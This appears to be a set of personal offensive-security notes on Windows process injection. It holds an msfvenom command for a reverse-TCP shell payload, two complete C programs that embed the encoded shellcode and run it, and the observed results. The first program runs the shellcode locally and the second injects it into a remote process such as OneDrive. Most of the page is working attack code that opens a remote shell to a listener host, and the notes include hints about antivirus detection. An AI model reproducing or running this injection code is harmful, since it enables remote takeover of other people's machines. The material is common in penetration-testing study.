




# Shellcode - Write shellcode into memory of local & remote processes
References•
https://ired.team/offensive-security/code-injection-process-injection/process-injection## Observations
• Static Analysis
◇ If shellcode isn't encoded/encrypted at all -> antivirus will detect the .exe as malicious on disk
## Write Shellcode into Local Process
Generate some shellcode
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.58.142 LPORT=443 -f c -b "\x00\x0a\x0d"Code breakdown:
1.
VirtuaAlloc - Allocate memory block to store shellcode in
2.
memcpy - Copy shellcode to allocated memory block
3.
((void(*)())pShellcodeBaseAddress)(); - Execute shellcode from memory (no idea wtf how)
#include <Windows.h>
int main()
{
// msfvenom -p windows/shell_reverse_tcp LHOST=192.168.58.142 LPORT=443 -f c -b "\x00\x0a\x0d"
// x86/shikata_ga_nai succeeded with size 351 (iteration=0)
// Payload size: 351 bytes
char shellcode[] = "\xdb\xcb\xbb\xba\xa6\x47\xc6\xd9\x74\x24\xf4\x58\x33\xc9\xb1"
"\x52\x83\xe8\xfc\x31\x58\x13\x03\xe2\xb5\xa5\x33\xee\x52\xab"
"\xbc\x0e\xa3\xcc\x35\xeb\x92\xcc\x22\x78\x84\xfc\x21\x2c\x29"
"\x76\x67\xc4\xba\xfa\xa0\xeb\x0b\xb0\x96\xc2\x8c\xe9\xeb\x45"
"\x0f\xf0\x3f\xa5\x2e\x3b\x32\xa4\x77\x26\xbf\xf4\x20\x2c\x12"
"\xe8\x45\x78\xaf\x83\x16\x6c\xb7\x70\xee\x8f\x96\x27\x64\xd6"
"\x38\xc6\xa9\x62\x71\xd0\xae\x4f\xcb\x6b\x04\x3b\xca\xbd\x54"
"\xc4\x61\x80\x58\x37\x7b\xc5\x5f\xa8\x0e\x3f\x9c\x55\x09\x84"
"\xde\x81\x9c\x1e\x78\x41\x06\xfa\x78\x86\xd1\x89\x77\x63\x95"
"\xd5\x9b\x72\x7a\x6e\xa7\xff\x7d\xa0\x21\xbb\x59\x64\x69\x1f"
"\xc3\x3d\xd7\xce\xfc\x5d\xb8\xaf\x58\x16\x55\xbb\xd0\x75\x32"
"\x08\xd9\x85\xc2\x06\x6a\xf6\xf0\x89\xc0\x90\xb8\x42\xcf\x67"
"\xbe\x78\xb7\xf7\x41\x83\xc8\xde\x85\xd7\x98\x48\x2f\x58\x73"
"\x88\xd0\x8d\xd4\xd8\x7e\x7e\x95\x88\x3e\x2e\x7d\xc2\xb0\x11"
"\x9d\xed\x1a\x3a\x34\x14\xcd\x85\x61\x2c\x83\x6e\x70\x50\x9a"
"\xd5\xfd\xb6\xf6\x39\xa8\x61\x6f\xa3\xf1\xf9\x0e\x2c\x2c\x84"
"\x11\xa6\xc3\x79\xdf\x4f\xa9\x69\x88\xbf\xe4\xd3\x1f\xbf\xd2"
"\x7b\xc3\x52\xb9\x7b\x8a\x4e\x16\x2c\xdb\xa1\x6f\xb8\xf1\x98"
"\xd9\xde\x0b\x7c\x21\x5a\xd0\xbd\xac\x63\x95\xfa\x8a\x73\x63"
"\x02\x97\x27\x3b\x55\x41\x91\xfd\x0f\x23\x4b\x54\xe3\xed\x1b"
"\x21\xcf\x2d\x5d\x2e\x1a\xd8\x81\x9f\xf3\x9d\xbe\x10\x94\x29"
"\xc7\x4c\x04\xd5\x12\xd5\x34\x9c\x3e\x7c\xdd\x79\xab\x3c\x80"
"\x79\x06\x02\xbd\xf9\xa2\xfb\x3a\xe1\xc7\xfe\x07\xa5\x34\x73"
"\x17\x40\x3a\x20\x18\x41";
// allocate memory block to store shellcode in
void *pShellcodeBaseAddress = VirtualAlloc(0, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
// copy shellcode into memory
memcpy(pShellcodeBaseAddress, shellcode, sizeof(shellcode));
// execute shellcode from memory
((void(*)())pShellcodeBaseAddress)();
return 0;
}
In Process Hacker we see the process -
main.exe - has started
In the network tab we see it's made a connection to the listener at
192.168.58.142 on port
443## Write Shellcode into Remote Process
Same as above, except slightly different code because working with remote processes.
### Observations
• Think you need sufficient permissions on the target process for PROCESS_ALL_ACCESS and allocating memory to work
◇ OneDrive.exe worked consistently
◇ but running as Administrator and against othe processes didn't seem to work
Code breakdown:
1.
OpenProcess - to get handle to remote process
2.
VirtuaAllocEx - allocate memory block in remote process to store shellcode in
3.
WriteProcessMemory - copy shellcode into remote process' memory
4.
CreateRemoteThread - execute shellcode by creating remote thread in target process at shellcode base address
5.
CloseHandle - clean up
#include <stdio.h>
#include <Windows.h>
int main()
{
// msfvenom -p windows/shell_reverse_tcp LHOST=192.168.58.142 LPORT=443 -f c -b "\x00\x0a\x0d"
// x86/shikata_ga_nai succeeded with size 351 (iteration=0)
// Payload size: 351 bytes
char shellcode[] = "\xdb\xcb\xbb\xba\xa6\x47\xc6\xd9\x74\x24\xf4\x58\x33\xc9\xb1"
"\x52\x83\xe8\xfc\x31\x58\x13\x03\xe2\xb5\xa5\x33\xee\x52\xab"
"\xbc\x0e\xa3\xcc\x35\xeb\x92\xcc\x22\x78\x84\xfc\x21\x2c\x29"
"\x76\x67\xc4\xba\xfa\xa0\xeb\x0b\xb0\x96\xc2\x8c\xe9\xeb\x45"
"\x0f\xf0\x3f\xa5\x2e\x3b\x32\xa4\x77\x26\xbf\xf4\x20\x2c\x12"
"\xe8\x45\x78\xaf\x83\x16\x6c\xb7\x70\xee\x8f\x96\x27\x64\xd6"
"\x38\xc6\xa9\x62\x71\xd0\xae\x4f\xcb\x6b\x04\x3b\xca\xbd\x54"
"\xc4\x61\x80\x58\x37\x7b\xc5\x5f\xa8\x0e\x3f\x9c\x55\x09\x84"
"\xde\x81\x9c\x1e\x78\x41\x06\xfa\x78\x86\xd1\x89\x77\x63\x95"
"\xd5\x9b\x72\x7a\x6e\xa7\xff\x7d\xa0\x21\xbb\x59\x64\x69\x1f"
"\xc3\x3d\xd7\xce\xfc\x5d\xb8\xaf\x58\x16\x55\xbb\xd0\x75\x32"
"\x08\xd9\x85\xc2\x06\x6a\xf6\xf0\x89\xc0\x90\xb8\x42\xcf\x67"
"\xbe\x78\xb7\xf7\x41\x83\xc8\xde\x85\xd7\x98\x48\x2f\x58\x73"
"\x88\xd0\x8d\xd4\xd8\x7e\x7e\x95\x88\x3e\x2e\x7d\xc2\xb0\x11"
"\x9d\xed\x1a\x3a\x34\x14\xcd\x85\x61\x2c\x83\x6e\x70\x50\x9a"
"\xd5\xfd\xb6\xf6\x39\xa8\x61\x6f\xa3\xf1\xf9\x0e\x2c\x2c\x84"
"\x11\xa6\xc3\x79\xdf\x4f\xa9\x69\x88\xbf\xe4\xd3\x1f\xbf\xd2"
"\x7b\xc3\x52\xb9\x7b\x8a\x4e\x16\x2c\xdb\xa1\x6f\xb8\xf1\x98"
"\xd9\xde\x0b\x7c\x21\x5a\xd0\xbd\xac\x63\x95\xfa\x8a\x73\x63"
"\x02\x97\x27\x3b\x55\x41\x91\xfd\x0f\x23\x4b\x54\xe3\xed\x1b"
"\x21\xcf\x2d\x5d\x2e\x1a\xd8\x81\x9f\xf3\x9d\xbe\x10\x94\x29"
"\xc7\x4c\x04\xd5\x12\xd5\x34\x9c\x3e\x7c\xdd\x79\xab\x3c\x80"
"\x79\x06\x02\xbd\xf9\xa2\xfb\x3a\xe1\xc7\xfe\x07\xa5\x34\x73"
"\x17\x40\x3a\x20\x18\x41";
DWORD pid = 6756;
printf("Injecting into PID: %i \n", pid);
// open handle to remote process
HANDLE hTargetProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
// allocate memory in remote process
PVOID pRemoteBuffer = VirtualAllocEx(hTargetProcess, NULL, sizeof(shellcode), (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
// copy shellcode into remote process' memory
WriteProcessMemory(hTargetProcess, pRemoteBuffer, shellcode, sizeof(shellcode), NULL);
// execute shellcode by creating remote thread in target process at shellcode base address
HANDLE hRemoteThread = CreateRemoteThread(hTargetProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pRemoteBuffer, NULL, 0, NULL);
CloseHandle(hTargetProcess);
return 0;
}
OneDrive's PID is 6756.
There's currently no sub-threads/processes.
Run our code, and OneDrive is now running
cmd.exeIt has an active connection to a remote host.
